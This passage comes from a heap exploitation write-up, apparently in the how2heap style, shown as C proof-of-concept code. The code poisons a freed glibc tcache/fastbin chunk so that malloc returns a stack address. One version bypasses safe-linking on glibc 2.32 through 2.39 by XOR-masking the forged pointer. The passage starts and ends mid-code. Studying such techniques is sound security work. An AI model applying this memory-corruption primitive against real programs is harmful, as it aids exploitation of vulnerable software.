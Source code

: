 ```C

  *(size_t**)victim = &stack_var[0];
  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```



##### glibc 2.32 - glibc 2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
	setbuf(stdout, NULL);

	// Allocate 14 times so that we can free later.
	char* ptrs[14];
	size_t i;
	for (i = 0; i < 14; i++) {
		ptrs[i] = malloc(allocsize);
	}
	
	// Fill the tcache.
	for (i = 0; i < 7; i++) free(ptrs[i]);
	
	char* victim = ptrs[7];

	free(victim);
	
	for (i = 8; i < 14; i++) free(ptrs[i]);
	
	size_t stack_var[6];
	memset(stack_var, 0xcd, sizeof(stack_var));
	*(size_t**)victim = (size_t*)((long)&stack_var[0] ^ ((long)victim >> 12));
    
```